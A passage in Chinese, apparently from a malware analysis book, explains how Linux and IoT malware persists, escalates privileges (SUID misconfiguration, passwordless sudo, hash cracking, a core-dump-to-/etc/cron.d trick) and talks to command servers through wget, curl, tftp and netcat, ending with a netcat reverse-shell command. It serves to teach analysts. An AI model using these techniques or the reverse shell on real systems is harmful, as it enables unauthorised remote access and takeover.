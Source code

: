 也有一些针对特定操作系统的自定义选项，但这些是黑客和现代恶意软件常用的最常见情况之一。

还值得一提的是，一些恶意软件家族根本不采取持久性机制，因为它们期望在设备重启后通过相同的渠道轻松恢复到同一设备。

## 提升权限

如我们所见，恶意软件可以通过其在渗透后立即获得的权限实现持久性，存在多种方式。毫不奇怪，针对 IoT 设备的恶意软件首先会尝试这些方式。例如，VPNFilter 恶意软件通过整合`crontab`实现持久性，而 Torii 恶意软件通过整合 Mirai 的一些代码，尝试了多种技术，其中之一是使用本地的`~/.bashrc`文件。

然而，如果在任何阶段需要提升权限，以下是几种常见的实现方式：

+   **漏洞利用**：提升权限的漏洞利用非常常见，总有可能特定系统的所有者未及时修补漏洞。

+   **SUID 可执行文件**：正如我们在上一节中讨论的，如果 SUID 文件配置错误，可以使用提升的权限执行命令。

+   `sudo`甚至无需提供密码，攻击者可以轻松利用这一点。即便需要密码，攻击者仍然可以通过暴力破解来突破。

+   **暴力破解凭证**：虽然这种方法不太可能适用于大规模感染的恶意软件，但可以获得所需密码的哈希值（例如，属于 root 的密码），然后通过暴力破解或使用包含大量预计算密码对及其哈希值的彩虹表来寻找匹配。

还有其他创造性的方法可以实现持久性。例如，在较旧的 Linux 内核上，可以将攻击者程序的当前目录设置为`/etc/cron.d`，在失败时请求创建转储文件，然后故意使其崩溃。在这种情况下，攻击者控制的转储文件将写入`/etc/cron.d`并作为文本文件处理，因此其内容将在提升的权限下执行。

现在，让我们深入探讨恶意软件与攻击者控制的远程服务器之间可能的多种通信方式。

## 命令与控制

在许多系统中，有多个默认存在的标准系统工具，可以用来与远程机器交互，从而下载或上传数据，具体取决于它们的可用性：

+   `wget`

+   `curl`

+   `ftpget`

+   `ftp`

+   `tftp`

![图 11.6 – IoT 恶意软件尝试使用 wget 或 curl 下载有效载荷](img/Figure_11.6_B18500.jpg)

图 11.6 – IoT 恶意软件尝试使用 wget 或 curl 下载有效载荷

对于使用`busybox wget`或`busybox ftpget`的设备，也可以使用它们。`nc`（netcat）和`scp`工具也可以用于类似的目的。`nc`的另一个优势是，它的某些版本可以用于建立反向 Shell：

```
nc -e /bin/sh <remote_ip> <remote_port>
```
